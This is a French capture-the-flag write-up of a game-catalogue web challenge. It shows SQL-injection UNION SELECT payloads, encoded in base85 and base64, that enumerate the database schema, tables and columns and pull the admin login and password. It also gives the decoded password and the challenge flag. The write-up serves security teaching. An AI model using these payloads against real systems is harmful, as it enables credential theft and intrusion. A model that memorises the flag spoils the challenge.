





# Titre : Catalogue de jeux I
## Description
Nous avons perdu le mot de passe de l'administrateur de notre catalogue de jeux, pouvez-vous le retrouver ?
## Solution
On arrive sur ce site web :


On remarque qu'il y a un onglet `Catégories` on clique dessus :


Dans l'url on remarque l'apparition d'un paramètre `?cat=MSY`. 
**MSY** correspond au chiffre **2**, sauf qu'il y a eu un chiffrement en **base85** puis **base64**.

On peut utiliser cyberchef pour trouver ceci :


On va voir si ce paramètre est vulnérable à une SQLi :
On chiffre notre payload : 2' avec base85 et base64 :

Et on l'envoie :



On connait maintenant la base de données utilisée grâce à l'erreur.

On peut vérifier que le site est vulnérable avec ce payload : `2 OR 1=1` soit `MSpCQGorPkgjNg==` :


### Identification de la base de données utilisé
Payload :
```sql
2 UNION SELECT null,TABLE_SCHEMA,null,null FROM INFORMATION_SCHEMA.tables;
```
soit :
```sql
MSpCUmw4UGApKDthakFLNlc-MUdGX2trRjwnYGlFNzovdFw4ND82PS84ZlRIQ2IwSUhDaHQ0YDtHVSIwOFBWYE47R0JHVjhQYClnO2FYKUU5Z0xDUkA6RiVhRiNz
```


La base de données utilisé est `Anime`.

### Identification des tables

On va lister les tables de cette base de données :
Payload :
```sql
UNION SELECT null,TABLE_NAME,null,null FROM INFORMATION_SCHEMA.tables WHERE table_schema = "Anime";
```
soit :
```sql
MSpCUmw4UGApKDthakFLNlc-MUdGX2trRjwnYGlFNzovZVU5Z3BVTkZfa2tGREtUYzMrQF03KTlkISMmN1Njb1Y1dV5FTzoxJHBlODQ_Nj0vcChOMkNoN1oxPSVHYlg3M0hcXEBWZlVfRig4bHBELitQTSs8aipoQmwuRSozcg
```





La table qui va nous intéresser est la table `users`.

### Identification des colonnes de notre table "users"
Payload :
```sql
UNION SELECT null,COLUMN_NAME,null,null FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA = "Anime" AND TABLE_NAME = "users";
```
soit :
```sql
MSpCUmw4UGApKDthakFLNlc-MUdGX2trRjZWZ0JVOWhvJWo1dHNkIURLVGMzLzhmVEhDYGwyRjpKRHMnOi5BI1c5Z01gTTpKUDdxNlYnWD81cVpZY0Npc1Q0RiErT1Q3OGNQczwnYGlFNzovdFw4ND82PSs_XmhrNiNMQ1JBS2k2XzouLTQoNXNlNzY_VldtXTczRmA5LCdAczxFY1dFZA
```





La table users contient les colonnes suivantes :

- id
- login
- password

###  Identification du login

On va lister les logins présent dans la base de données :
payload :
```sql
2 UNION SELECT null, login, null, null FROM users;
```
soit :
```sql
MSpCUmw4UGApKDthakFLNlc-MUdGX2trRitEYnQvQmw1SUVES1RjMy8wSmhRQ2h0NGA7R1UiMEZgViw3RiNz
```





Le login de l'administrateur est : `admin`.

###  Identification du password

On va lister les mot de passe présent dans la base de données :

```sql
2 UNION SELECT null, password, null, null FROM users;
```
soit :
```sql
MSpCUmw4UGApKDthakFLNlc-MUdGX2trRitFMWIxRipEUENBMVNqQEZfa2tGK0R1PTxDYGwyRjpKRHNTRihLQjUzcg
```


Le mot de passe de l'admin est : `U1FMSW5qM2N0MW9uX1BAc3N3MHJkMTQ3`.

Le mot de passe semble être chiffré en base64, on va le décoder :

```sh
$ echo "U1FMSW5qM2N0MW9uX1BAc3N3MHJkMTQ3" | base64 -d
SQLInj3ct1on_P@ssw0rd147
```

Le mot de passe est donc `SQLInj3ct1on_P@ssw0rd147`

### Connexion en tant qu'admin

Maintenant qu'on connait le nom d'utilisateur et le mot de passe on peut se connecter sur le site en tant qu'admin :





Le flag est donc : `NHM2I{41c9ff16-260d-4e2f-ad62-d46e727d1769}`


